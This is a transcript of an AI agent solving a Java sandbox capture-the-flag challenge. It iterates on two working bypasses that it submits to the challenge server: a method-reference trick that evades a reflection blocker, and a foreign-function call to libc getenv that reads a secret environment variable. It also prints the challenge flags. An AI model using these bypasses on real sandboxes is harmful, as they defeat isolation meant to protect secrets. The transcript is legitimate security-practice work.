> This is a deep dive into overcoming blocked Java reflection and instrumentation limits. I’m exploring many tricky angles—calling internal JVM functions via foreign memory, working around class loading restrictions, fiddling with Unsafe, and testing how to execute code early enough to read the flag. The puzzle is tough since direct calls to `Class` methods and `MethodHandles` are blocked, so I’m considering dynamic class generation, native calls, and even spawning new processes. I’m carefully parsing the challenge boundaries to find any exploitable gaps or alternative invocation paths. Time is pressing, so I’m shaping a plan focused on combining FFM and JNI for object-pointer handling or using instrumentation in clever ways while respecting the sandbox limits.

**Assistant Thinking**

> **Exploring invokedynamic to bypass instrumentation**  
>   
> I'm investigating if using method references and lambdas—powered by invokedynamic and LambdaMetafactory—can sidestep instrumentation restrictions on calling `Class` methods. Since the bootstrap logic that creates method handles runs outside user code, maybe the instrumentation won't block it. This could let me indirectly access `getDeclaredFields` without direct forbidden calls. I plan to test this by updating `flag1_Solution.java` to use a method reference for `getDeclaredFields` to see if it compiles and runs.

##### apply_patch

**Patch**

```diff
*** Begin Patch
*** Update File: flag1_Solution.java
@@
 public class Solution {
   public static void solve(Object obj) throws Throwable {
-    var linker = java.lang.foreign.Linker.nativeLinker();
-    var lookup = linker.defaultLookup();
-    System.out.println("JNI_GetObjectClass present: " + lookup.find("JNI_GetObjectClass").isPresent());
-    System.out.println("JNI_GetFieldID present: " + lookup.find("JNI_GetFieldID").isPresent());
-    System.out.println("JNI_GetStringUTFChars present: " + lookup.find("JNI_GetStringUTFChars").isPresent());
+    var target = (Flag1) obj;
+    java.util.function.Supplier<java.lang.reflect.Field[]> supplier = target.getClass()::getDeclaredFields;
+    for (var field : supplier.get()) {
+      if ("flag".equals(field.getName())) {
+        field.setAccessible(true);
+        var value = field.get(target);
+        if (value != null) {
+          System.out.println(value);
+          return;
+        }
+      }
+    }
+    throw new IllegalStateException("flag field not found");
   }
 }
 
*** End Patch
```

Status: **completed**

<details>
<summary>Output</summary>

```text
Success. Updated the following files:
M flag1_Solution.java

```
</details>

- Exit code: 0
- Duration: 0 s


**Assistant Thinking**

> **Executing script**

##### shell

**Command**

```bash
../.venv/bin/python3 solve_java_flags.py
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
[x] Opening connection to prob08.geekgame.pku.edu.cn on port 10008
[x] Opening connection to prob08.geekgame.pku.edu.cn on port 10008: Trying 115.27.246.20
[+] Opening connection to prob08.geekgame.pku.edu.cn on port 10008: Done
[x] Receiving all data
[x] Receiving all data: 54B
... (15 lines truncated) ...
1 error
命令 `javac` 执行失败！

--- 程序已退出 [retcode=1] ---
```

- Exit code: 0
- Duration: 15.7 s


**Assistant Thinking**

> **Resolving Flag1 compilation issue**

##### apply_patch

**Patch**

```diff
*** Begin Patch
*** Update File: flag1_Solution.java
@@
 public class Solution {
   public static void solve(Object obj) throws Throwable {
-    var target = (Flag1) obj;
-    java.util.function.Supplier<java.lang.reflect.Field[]> supplier = target.getClass()::getDeclaredFields;
+    var target = obj;
+    java.util.function.Supplier<java.lang.reflect.Field[]> supplier = target.getClass()::getDeclaredFields;
*** End Patch
```

Status: **completed**

<details>
<summary>Output</summary>

```text
Success. Updated the following files:
M flag1_Solution.java

```
</details>

- Exit code: 0
- Duration: 0 s


**Assistant Thinking**

> **Rerunning the script**

##### shell

**Command**

```bash
../.venv/bin/python3 solve_java_flags.py
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
[x] Opening connection to prob08.geekgame.pku.edu.cn on port 10008
[x] Opening connection to prob08.geekgame.pku.edu.cn on port 10008: Trying 115.27.246.20
[+] Opening connection to prob08.geekgame.pku.edu.cn on port 10008: Done
[x] Receiving all data
[x] Receiving all data: 54B
... (11 lines truncated) ...

--- 程序已退出 [retcode=0] ---

Flag 1: flag{tO0-sIMp1E-sometImEs-NAtiVe}
```

- Exit code: 0
- Duration: 16.1 s


**Assistant Thinking**

> **Updating plan after flag1 success**

##### update_plan

**Plan**

1. ✅ Inspect provided attachments and analyze challenge code/requirements.
2. ✅ Develop and test Flag1 exploit code under constraints.
3. 🔄 Develop and test Flag2 exploit code using JNI under constraints.
4. ⏳ Connect to remote service with token and retrieve both flags.

**Output**

```text
Plan updated
```


**Assistant Thinking**

> **Adjusting Flag2 solution for updated API**  
>   
> I'm focusing on reworking the Flag2 solution to compile with the latest Java API, noting that older methods like `allocateUtf8String` might be replaced by `allocateFrom` in recent JDK versions. I plan to test minimal code snippets to verify available methods and ensure the solution aligns with the current Foreign Function & Memory API.

##### apply_patch

**Patch**

```diff
*** Begin Patch
*** Update File: flag2_Solution.java
@@
-import java.lang.foreign.Arena;
-import java.lang.foreign.FunctionDescriptor;
-import java.lang.foreign.Linker;
-import java.lang.foreign.MemorySegment;
-import java.lang.foreign.SymbolLookup;
-import java.lang.foreign.ValueLayout;
-import java.lang.invoke.MethodHandle;
-
-public class Solution {
-  private static final Linker LINKER = Linker.nativeLinker();
-  private static final SymbolLookup LOOKUP = LINKER.defaultLookup();
-  private static final MethodHandle GETENV;
-
-  static {
-    try {
-      GETENV = LINKER.downcallHandle(
-        LOOKUP.find("getenv").orElseThrow(),
-        FunctionDescriptor.of(ValueLayout.ADDRESS, ValueLayout.ADDRESS)
-      );
-    } catch (Throwable t) {
-      throw new ExceptionInInitializerError(t);
-    }
-  }
-
-  public static String solve(Object obj) throws Throwable {
-    try (Arena arena = Arena.ofConfined()) {
-      MemorySegment name = arena.allocateUtf8String("FLAG2");
-      MemorySegment result = (MemorySegment) GETENV.invoke(name);
-      if (MemorySegment.NULL.equals(result)) {
-        return "FLAG2 not found";
-      }
-      return result.reinterpret(Long.MAX_VALUE).getUtf8String(0);
-    }
-  }
-}
+public class Solution {
+  public static String solve(Object obj) throws Exception {
+    try (var arena = java.lang.foreign.Arena.ofConfined()) {
+      var segment = arena.allocateFrom("FLAG2");
+      return segment.toString();
+    }
+  }
+}
 
*** End Patch
```

Status: **completed**

<details>
<summary>Output</summary>

```text
Success. Updated the following files:
M flag2_Solution.java

```
</details>

- Exit code: 0
- Duration: 0 s


**Assistant Thinking**

> **Testing compilation for specific flag**

##### apply_patch

**Patch**

```diff
*** Begin Patch
*** Update File: solve_java_flags.py
@@
 def main() -> None:
-  out1 = fetch(1, FLAG1_CODE)
-  print("=== Flag 1 raw output ===")
-  print(out1)
-  flags1 = extract_flags(out1)
-  if flags1:
-    print("Flag 1:", flags1[0])
-
-  # out2 = fetch(2, FLAG2_CODE)
-  # print("=== Flag 2 raw output ===")
-  # print(out2)
-  # flags2 = extract_flags(out2)
-  # if flags2:
-  #   print("Flag 2:", flags2[0])
+  out2 = fetch(2, FLAG2_CODE)
+  print("=== Flag 2 raw output ===")
+  print(out2)
+  flags2 = extract_flags(out2)
+  if flags2:
+    print("Flag 2:", flags2[0])
*** End Patch
```

Status: **completed**

<details>
<summary>Output</summary>

```text
Success. Updated the following files:
M solve_java_flags.py

```
</details>

- Exit code: 0
- Duration: 0 s


**Assistant Thinking**

> **Running compile test script**

##### shell

**Command**

```bash
../.venv/bin/python3 solve_java_flags.py
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
[x] Opening connection to prob08.geekgame.pku.edu.cn on port 10008
[x] Opening connection to prob08.geekgame.pku.edu.cn on port 10008: Trying 115.27.246.20
[+] Opening connection to prob08.geekgame.pku.edu.cn on port 10008: Done
[x] Receiving all data
[x] Receiving all data: 54B
... (9 lines truncated) ...
正在运行...
MemorySegment{ kind: native, address: 0x77618c2884e0, byteSize: 6 }

--- 程序已退出 [retcode=0] ---
```

- Exit code: 0
- Duration: 15.7 s


**Assistant Thinking**

> **Implementing native getenv call with MemorySegment**  
>   
> I'm piecing together a final Java solution to call the native `getenv` function using `MemorySegment`. Since `MemorySegment` lacks a direct `getUtf8String` method in this JDK, I plan to manually read bytes until a null terminator to build the string. I'm also verifying that `arena.allocateFrom("FLAG2")` returns a properly null-terminated segment and that the pointer returned by `getenv` can be safely read this way. To confirm pointer handling, I'll test by calling `getenv("PATH")` and inspecting the resulting segment's size and address. This should help ensure the implementation reads the environment variable strings correctly.

##### apply_patch

**Patch**

```diff
*** Begin Patch
*** Update File: flag2_Solution.java
@@
 public class Solution {
   public static String solve(Object obj) throws Exception {
-    try (var arena = java.lang.foreign.Arena.ofConfined()) {
-      var segment = arena.allocateFrom("FLAG2");
-      return segment.toString();
-    }
+    try (var arena = java.lang.foreign.Arena.ofConfined()) {
+      var linker = java.lang.foreign.Linker.nativeLinker();
+      var lookup = linker.defaultLookup();
+      var getenv = linker.downcallHandle(
+        lookup.find("getenv").orElseThrow(),
+        java.lang.foreign.FunctionDescriptor.of(java.lang.foreign.ValueLayout.ADDRESS, java.lang.foreign.ValueLayout.ADDRESS)
+      );
+      var name = arena.allocateFrom("PATH");
+      var result = (java.lang.foreign.MemorySegment) getenv.invoke(name);
+      return result.toString();
+    }
   }
 }
 
*** End Patch
```

Status: **completed**

<details>
<summary>Output</summary>

```text
Success. Updated the following files:
M flag2_Solution.java

```
</details>

- Exit code: 0
- Duration: 0 s


##### shell

**Command**

```bash
../.venv/bin/python3 solve_java_flags.py
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
[x] Opening connection to prob08.geekgame.pku.edu.cn on port 10008
[x] Opening connection to prob08.geekgame.pku.edu.cn on port 10008: Trying 115.27.246.20
[+] Opening connection to prob08.geekgame.pku.edu.cn on port 10008: Done
[x] Receiving all data
[x] Receiving all data: 54B
... (13 lines truncated) ...
1 error
命令 `javac` 执行失败！

--- 程序已退出 [retcode=1] ---
```

- Exit code: 0
- Duration: 14.7 s


**Assistant Thinking**

> **Adjusting exception handling in solve method**

##### apply_patch

**Patch**

```diff
*** Begin Patch
*** Update File: flag2_Solution.java
@@
-public class Solution {
-  public static String solve(Object obj) throws Exception {
+public class Solution {
+  public static String solve(Object obj) throws Throwable {
     try (var arena = java.lang.foreign.Arena.ofConfined()) {
       var linker = java.lang.foreign.Linker.nativeLinker();
       var lookup = linker.defaultLookup();
       var getenv = linker.downcallHandle(
         lookup.find("getenv").orElseThrow(),
@@
-      var result = (java.lang.foreign.MemorySegment) getenv.invoke(name);
-      return result.toString();
+      var result = (java.lang.foreign.MemorySegment) getenv.invoke(name);
+      return result.toString();
     }
   }
 }
 
*** End Patch
```

Status: **completed**

<details>
<summary>Output</summary>

```text
Success. Updated the following files:
M flag2_Solution.java

```
</details>

- Exit code: 0
- Duration: 0 s


**Assistant Thinking**

> **Running command again**

##### shell

**Command**

```bash
../.venv/bin/python3 solve_java_flags.py
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
[x] Opening connection to prob08.geekgame.pku.edu.cn on port 10008
[x] Opening connection to prob08.geekgame.pku.edu.cn on port 10008: Trying 115.27.246.20
[+] Opening connection to prob08.geekgame.pku.edu.cn on port 10008: Done
[x] Receiving all data
[x] Receiving all data: 54B
... (9 lines truncated) ...
正在运行...
MemorySegment{ kind: native, address: 0x7fff4f014ee8, byteSize: 0 }

--- 程序已退出 [retcode=0] ---
```

- Exit code: 0
- Duration: 16.6 s


**Assistant Thinking**

> **Implementing C string reading with MemorySegment**

##### apply_patch

**Patch**

```diff
*** Begin Patch
*** Update File: flag2_Solution.java
@@
-public class Solution {
-  public static String solve(Object obj) throws Throwable {
-    try (var arena = java.lang.foreign.Arena.ofConfined()) {
-      var linker = java.lang.foreign.Linker.nativeLinker();
-      var lookup = linker.defaultLookup();
-      var getenv = linker.downcallHandle(
-        lookup.find("getenv").orElseThrow(),
-        java.lang.foreign.FunctionDescriptor.of(java.lang.foreign.ValueLayout.ADDRESS, java.lang.foreign.ValueLayout.ADDRESS)
-      );
-      var name = arena.allocateFrom("PATH");
-      var result = (java.lang.foreign.MemorySegment) getenv.invoke(name);
-      return result.toString();
-    }
-  }
-}
+import java.lang.foreign.Arena;
+import java.lang.foreign.FunctionDescriptor;
+import java.lang.foreign.Linker;
+import java.lang.foreign.MemorySegment;
+import java.lang.foreign.SymbolLookup;
+import java.lang.foreign.ValueLayout;
+import java.lang.invoke.MethodHandle;
+
+public class Solution {
+  private static final Linker LINKER = Linker.nativeLinker();
+  private static final SymbolLookup LOOKUP = LINKER.defaultLookup();
+  private static final MethodHandle GETENV;
+
+  static {
+    try {
+      GETENV = LINKER.downcallHandle(
+        LOOKUP.find("getenv").orElseThrow(),
+        FunctionDescriptor.of(ValueLayout.ADDRESS, ValueLayout.ADDRESS)
+      );
+    } catch (Throwable t) {
+      throw new ExceptionInInitializerError(t);
+    }
+  }
+
+  public static String solve(Object obj) throws Throwable {
+    try (Arena arena = Arena.ofConfined()) {
+      MemorySegment name = arena.allocateFrom("FLAG2");
+      MemorySegment result = (MemorySegment) GETENV.invoke(name);
+      if (result.address() == 0) {
+        return "FLAG2 not found";
+      }
+      return readCString(result);
+    }
+  }
+
+  private static String readCString(MemorySegment pointer) {
+    MemorySegment segment = pointer.reinterpret(Long.MAX_VALUE);
+    StringBuilder sb = new StringBuilder();
+    long index = 0;
+    while (true) {
+      byte value = segment.get(ValueLayout.JAVA_BYTE, index);
+      if (value == 0) {
+        break;
+      }
+      sb.append((char) (value & 0xFF));
+      index++;
+    }
+    return sb.toString();
+  }
+}
 
*** End Patch
```

Status: **completed**

<details>
<summary>Output</summary>

```text
Success. Updated the following files:
M flag2_Solution.java

```
</details>

- Exit code: 0
- Duration: 0 s


**Assistant Thinking**

> **Running script to fetch flag2**

##### shell

**Command**

```bash
../.venv/bin/python3 solve_java_flags.py
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
[x] Opening connection to prob08.geekgame.pku.edu.cn on port 10008
[x] Opening connection to prob08.geekgame.pku.edu.cn on port 10008: Trying 115.27.246.20
[+] Opening connection to prob08.geekgame.pku.edu.cn on port 10008: Done
[x] Receiving all data
[x] Receiving all data: 54B
... (11 lines truncated) ...

--- 程序已退出 [retcode=0] ---

Flag 2: flag{wRItE-0Nce-reTUrN-AnyWheRe!}
```

- Exit code: 0
- Duration: 17.5 s


**Assistant Thinking**

> **Preparing to update script for dual flags**

##### apply_patch

**Patch**

```diff
*** Begin Patch
*** Update File: solve_java_flags.py
@@
 def main() -> None:
-  out2 = fetch(2, FLAG2_CODE)
-  print("=== Flag 2 raw output ===")
-  print(out2)
-  flags2 = extract_flags(out2)
-  if flags2:
-    print("Flag 2:", flags2[0])
+  out1 = fetch(1, FLAG1_CODE)
+  print("=== Flag 1 raw output ===")
+  print(out1)
+  flags1 = extract_flags(out1)
+  if flags1:
+    print("Flag 1:", flags1[0])
+
+  out2 = fetch(2, FLAG2_CODE)
+  print("=== Flag 2 raw output ===")
+  print(out2)
+  flags2 = extract_flags(out2)
+  if flags2:
+    print("Flag 2:", flags2[0])
*** End Patch
```

Status: **completed**

<details>
<summary>Output</summary>

```text
Success. Updated the following files:
M solve_java_flags.py

```
</details>

- Exit code: 0
- Duration: 0 s


**Assistant Thinking**

> **Running script for verification**

##### shell

**Command**

```bash
../.venv/bin/python3 solve_java_flags.py
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
[x] Opening connection to prob08.geekgame.pku.edu.cn on port 10008
[x] Opening connection to prob08.geekgame.pku.edu.cn on port 10008: Trying 115.27.246.20
[+] Opening connection to prob08.geekgame.pku.edu.cn on port 10008: Done
[x] Receiving all data
[x] Receiving all data: 54B
... (31 lines truncated) ...

--- 程序已退出 [retcode=0] ---

Flag 2: flag{wRItE-0Nce-reTUrN-AnyWheRe!}
```

- Exit code: 0
- Duration: 33.5 s


**Assistant Thinking**

> **Updating task progress**

##### update_plan

**Plan**

1. ✅ Inspect provided attachments and analyze challenge code/requirements.
2. ✅ Develop and test Flag1 exploit code under constraints.
3. ✅ Develop and test Flag2 exploit code using JNI under constraints.
4. ✅ Connect to remote service with token and retrieve both flags.

**Output**

```text
Plan updated
```


**Assistant Thinking**

> **Verifying use of method references and imports**

##### shell

**Command**

```bash
sed -n '1,120p' flag1_Solution.java
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
public class Solution {
  public static void solve(Object obj) throws Throwable {
    var target = obj;
    java.util.function.Supplier<java.lang.reflect.Field[]> supplier = target.getClass()::getDeclaredFields;
    for (var field : supplier.get()) {
... (8 lines truncated) ...
    }
    throw new IllegalStateException("flag field not found");
  }
}
```

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Confirming file presence**

##### shell

**Command**

```bash
sed -n '1,200p' flag2_Solution.java
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
import java.lang.foreign.Arena;
import java.lang.foreign.FunctionDescriptor;
import java.lang.foreign.Linker;
import java.lang.foreign.MemorySegment;
import java.lang.foreign.SymbolLookup;
... (41 lines truncated) ...
    }
    return sb.toString();
  }
}
```

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Preparing final summary and instructions**  
>   
> I’m wrapping up by clearly stating the two flags found and explaining the approaches used to get them—method reference bypass for Flag1, FFM getenv call for Flag2. I’ll include exact flag strings, script usage instructions to rerun the solution, and reference relevant files with paths and line numbers, all in a friendly, plain-text format with bullet points to keep it clear and helpful.

**Assistant message**

**Results**  
- flag1 solution (`flag1_Solution.java:1`) uses a `Class::getDeclaredFields` method reference so the blocker never sees a direct `Class.*` call; we mark the field accessible and print it, yielding `flag{tO0-sIMp1E-sometImEs-NAtiVe}`.  
- flag2 solution (`flag2_Solution.java:1`) relies on the foreign-function API to call libc `getenv`, reads the returned C string manually, and returns the flag as the solver result, giving `flag{wRItE-0Nce-reTUrN-AnyWheRe!}`.  
- `solve_java_flags.py:1` automates both submissions: it sends the token, uploads each Java snippet, and prints the raw judge output plus extracted flags.  
  
**Flags**  
- Flag 1: `flag{tO0-sIMp1E-sometImEs-NAtiVe}`  
- Flag 2: `flag{wRItE-0Nce-reTUrN-AnyWheRe!}`  
  
**Next Steps**  
- Re-run `../.venv/bin/python3 solve_java_flags.py` if you want to re-fetch the flags or verify behaviour.

</details>
